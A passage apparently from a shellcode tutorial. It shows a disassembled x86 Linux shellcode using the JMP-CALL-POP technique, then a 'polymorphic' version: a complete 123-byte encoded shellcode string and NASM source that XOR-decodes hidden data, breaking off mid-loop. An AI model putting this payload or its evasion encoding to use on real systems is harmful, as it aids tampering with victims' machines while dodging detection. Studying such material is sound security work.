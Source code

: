                             ; 3rd argument of write():
                            ;   number of bytes to write: 31
0000002A  B21F              mov dl,0x1f

                            ; call syscall: write()
0000002C  B004              mov al,0x4
0000002E  CD80              int 0x80

                            ; call syscall: close()
00000030  B006              mov al,0x6
00000032  CD80              int 0x80

                            ; call syscall: exit()
00000034  B001              mov al,0x1
00000036  31DB              xor ebx,ebx
00000038  CD80              int 0x80

                            ; part of the JMP-CALL-POP technique
                            ; go back to the address 0x00000002
0000003A  E8C3FFFFFF        call 0x2

                            ; two strings referenced by the previous instructions
0000003F  2F                das
...       ...               ...
00000069  2023              and [ebx],ah
</code></pre><h2 id="polymorphic-shellcode">Polymorphic shellcode</h2><p>Follows the polymorphic version of the shellcode:</p><pre><code class="language-nasm">; Author: Robert C. Raducioiu (rbct)
; Reference: http://shell-storm.org/shellcode/files/shellcode-561.php
; Shellcode: "\xeb\x48\x5f\x89\xfe\x31\xc9\xf7\xe1\xb1\x0b\x81\x37\x71\x63\x63\x75\x83\xc7\x04\xe2\xf5\x89\xf7\x89\xfb\x83\xc3\x0c\x53\x5e\x57\x5b\xb0\x06\x48\xb2\x69\xc1\xc2\x02\x66\xb9\x43\x04\x49\xcd\x80\x93\x31\xc0\x50\x5a\x6a\x20\x5a\x4a\x6a\x03\x58\x40\x56\x59\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x40\xcd\x80\xe8\xb3\xff\xff\xff\x5e\x06\x17\x16\x5e\x13\x02\x06\x02\x14\x07\x75\x05\x0c\x0c\x07\x4b\x59\x53\x4f\x41\x59\x17\x45\x41\x11\x59\x5a\x03\x0c\x0c\x01\x4b\x4c\x01\x1c\x1f\x4c\x01\x14\x02\x0b\x69\x75"
; Length: 123 bytes

global _start

section .text

_start:

    jmp short CallRunShellcode

RunShellcode:

    pop edi
    mov esi, edi

    xor ecx, ecx
    mul ecx

    mov cl, 11
    
DecodeStringBytes:
    
    xor DWORD [edi], 0x75636371
